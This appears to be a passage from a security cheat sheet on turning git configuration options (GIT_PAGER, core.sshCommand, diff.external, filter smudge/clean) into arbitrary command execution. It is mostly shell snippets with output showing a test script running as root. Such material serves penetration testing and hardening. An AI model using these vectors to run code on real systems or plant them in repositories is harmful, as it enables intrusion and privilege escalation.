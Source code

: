 So, the following snippet can also be used to execute commands:

```bash
$ mkdir repo
$ cd repo
$ git init
$ echo "random" > hop
$ git add .
$ GIT_PAGER='id #' git grep --open-files-in-pager .
```

#### core.sshCommand

[core.sshCommand](https://git-scm.com/docs/git-config#Documentation/git-config.txt-coresshCommand) gives a command that will be executed when establishing a connection to a remote using the SSH protocol. If this variable is set, `git fetch` and `git push` will use the specified command instead of `ssh` when they need to connect to a remote system.

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone -c core.sshCommand="./pwn.sh" git@github.com:user/project.git
# or
$ git clone -c core.sshCommand="./pwn.sh" ssh://github.com/user/project.git
Cloning into 'project'...
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

#### diff.external

[diff.external](https://git-scm.com/docs/git-config#Documentation/git-config.txt-diffexternal) gives a command that will be used instead of git's internal diff function.

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone https://github.com/user/project.git
$ cd project
$ git -c diff.external="../pwn.sh" HEAD 480e4c9
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
```

#### filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge

[filter.<driver>.clean](https://git-scm.com/docs/git-config#Documentation/git-config.txt-filterltdrivergtclean) is used to convert the content of a worktree file to a blob upon checkin.

[filter.<driver>.smudge](https://git-scm.com/docs/git-config#Documentation/git-config.txt-filterltdrivergtsmudge) is used to convert the content of a blob object to a worktree file upon checkout.

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge
# so that they echo a message to STDERR whenever they are invoked
$ echo $'[filter "any"]\n\tsmudge = echo \\"Pwned smudge as $(id)\\">&2\n\tclean = echo \\"Pwned clean as $(id)\\">&2' >> ./.git/config
# add filter to .gitattributes
$ touch example
$ git add ./example
$ git commit -m 'commit'
$ echo "*  text  filter=any" > .gitattributes
$ git status
Pwned clean as uid=0(root) gid=0(root) groups=0(root)
```